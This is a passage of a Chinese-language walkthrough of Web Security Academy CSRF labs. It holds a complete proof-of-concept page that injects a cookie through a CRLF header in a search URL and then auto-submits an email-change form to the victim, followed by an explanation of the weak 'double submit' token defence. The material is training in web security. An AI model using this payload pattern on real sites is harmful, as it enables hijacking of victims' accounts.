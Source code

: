   &lt;/body&gt;
&lt;/html&gt;



换完后：
&lt;html&gt;
  &lt;!-- CSRF PoC - generated by Burp Suite Professional --&gt;
  &lt;body&gt;
  &lt;script&gt;history.pushState('', '', '/')&lt;/script&gt;
    &lt;form action="https://0a81005e04e2ac60c05b4019007800a9.web-security-academy.net/my-account/change-email" method="POST"&gt;
      &lt;input type="hidden" name="email" value="333333&amp;#64;qq&amp;#46;com" /&gt;
      &lt;input type="hidden" name="csrf" value="rFry4XfZMtkztI9YU4EERewPSwACRrLT" /&gt;
      &lt;input type="submit" value="Submit request" /&gt;
    &lt;/form&gt;
        &lt;img src="https://0a81005e04e2ac60c05b4019007800a9.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=3KgZOqo3BJRX4HkGlmX9ESGModd3Ch5J%3b%20SameSite=None" onerror="document.forms[0].submit()"&gt;
  &lt;/body&gt;
&lt;/html&gt;
</code></pre>

存储利用漏洞攻击，然后单击"Deliver exploit to victim"（发给受害者）


 完成实验




---


> 
<h3>6、CSRF令牌只是在Cookie中复制</h3>
1、在上述漏洞的另一个变体中，某些应用程序不维护已发出令牌的任何服务器端记录，而是在Cookie和请求参数中复制每个令牌。验证后续请求时，应用程序只需验证请求参数中提交的令牌是否与Cookie中提交的值匹配。
<pre><code>这有时被称为针对CSRF的“双重提交”防御，因为它易于实现，并且不需要任何服务器端状态：
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&amp;email=wiener@normal-user.com</code></pre>
在这种情况下，如果网站包含任何Cookie设置功能，攻击者就可以再次执行CSRF攻击。在这里，攻击者不需要获得他们自己的有效令牌。只需发明一个令牌（可能是所需的格式，如果要检查的话），利用cookie设置行为将其cookie放置到受害者的浏览器中，并在CSRF攻击中将其令牌提供给受害者<br/>  
<hr/>
2、涉及实验：<br/> 实验6：标记在Cookie中重复的CSRF


> 
<h3>实验6：标记在Cookie中重复的CSRF</h3>
信息：
本实验的电子邮件更改功能易受CSRF攻击。它尝试使用不安全的"双重提交" CSRF预防技术。
完成实验：使用您的漏洞利用服务器托管一个HTML页面，该页面使用CSRF攻击来更改查看者的电子邮件地址
已有账号：wiener:peter
<hr/>
part1:
登录帐户。提交"更新电子邮件"表单，并在HTTP代理历史记录中查找生成的请求
